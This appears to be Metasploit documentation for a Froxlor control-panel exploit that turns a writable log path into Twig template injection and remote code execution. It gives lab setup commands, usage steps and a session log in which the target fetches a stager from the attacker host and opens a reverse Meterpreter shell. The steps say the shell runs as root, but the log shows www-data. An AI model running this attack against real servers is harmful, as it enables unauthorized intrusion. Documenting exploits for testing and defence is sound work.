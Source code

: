 ## Vulnerable Application

Froxlor is an open source web hosting control panel. Froxlor v2.0.7 and below suffers from a bug that allows
authenticated users to change the application logs path to any directory on the OS level which the user www-data can
write without restrictions from the backend which leads to writing a malicious Twig template that the application will
render. That will lead to achieving a remote command execution under the user www-data.

### Setup
Install php 8.1 and MySQL. Download the vulnerable Froxlor application and place it in Ubuntu's default webroot. The
below instruction set should be able to be copy and pasted into a terminal in order to deploy a vulnerable application.
```
sudo add-apt-repository ppa:ondrej/php
sudo apt install php8.1
sudo apt install php8.1-common php8.1-mysql php8.1-xml php8.1-xmlrpc php8.1-curl php8.1-gd php8.1-imagick php8.1-cli php8.1-dev php8.1-imap php8.1-mbstring php8.1-opcache php8.1-soap php8.1-zip php8.1-redis php8.1-intl php8.1-gmp php8.1-bcmath -y
wget https://files.froxlor.org/releases/froxlor-2.0.3.tar.gz
gunzip froxlor-2.0.3.tar.gz
tar -xvf froxlor-2.0.3.tar
sudo rm /var/www/html/index.html
sudo cp -r froxlor /var/www/html/
cd /var/www/html/
sudo chown -R www-data:www-data ./
sudo apt install mysql-server
`sudo systemctl start mysql.service`
sudo mysql
mysql> ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'notpassword';
mysql> quit;
sudo systemctl restart apache2
```

After the above completes successfully, navigate to http://localhost/froxlor to finish the web-based portion of the
installation. Accept the EULA and input the database credentials and then start the application.

## Options

### TARGETURI

The base URI path of Froxlor. **Default: /froxlor**

### WEB_ROOT

The webroot of the Froxlor server. The webroot must be known in order to write the absolute path of the logfile. The
default options assumes Froxlor is installed on an Ubuntu machine: **Default: /var/www/html**


## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/froxlor_log_path_rce`
1. Set the `RHOSTS`, `LHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### Ubuntu 20.04, Froxlor 2.0.3 running on Apache, MySQL and PHP 8.1
```
msf6 > use exploit/linux/http/froxlor_log_path_rce
[*] Using exploit/linux/http/froxlor_log_path_rce
msf6 exploit(linux/http/froxlor_log_path_rce) > set rhosts 172.16.199.140
rhosts => 172.16.199.140
msf6 exploit(linux/http/froxlor_log_path_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(linux/http/froxlor_log_path_rce) > set lport 9191
lport => 9191
msf6 exploit(linux/http/froxlor_log_path_rce) > set username admin
username => admin
msf6 exploit(linux/http/froxlor_log_path_rce) > set password notpassword
password => notpassword
msf6 exploit(linux/http/froxlor_log_path_rce) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:9191
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Successful login
[+] The target appears to be vulnerable. Vulnerable version found: 2.0.3
[+] Successfully Logged in!
[+] CSRF token is : 5701b7e6335ab13e20e91845b210b6be0bea7621
[+] Changed logfile path to: /var/www/html/froxlor/templates/Froxlor/footer.html.twig
[*] Using URL: http://172.16.199.1:8080/ygs3pAWMRNIs
[+] Injected payload sucessfully
[*] Changing logfile path back to default value while triggering payload: /var/www/html/froxlor/logs/froxlor.log
[*] Client 172.16.199.140 (Wget/1.20.3 (linux-gnu)) requested /ygs3pAWMRNIs
[*] Sending payload to 172.16.199.140 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (3045348 bytes) to 172.16.199.140
[*] Cleaning up...
[*] Deleting tampered footer.html.twig file
[*] Rewriting clean footer.html.twig file
[*] Meterpreter session 3 opened (172.16.199.1:9191 -> 172.16.199.140:50398) at 2023-02-13 18:20:02 -0500
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 172.16.199.140
OS           : Ubuntu 20.04 (Linux 5.15.0-58-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
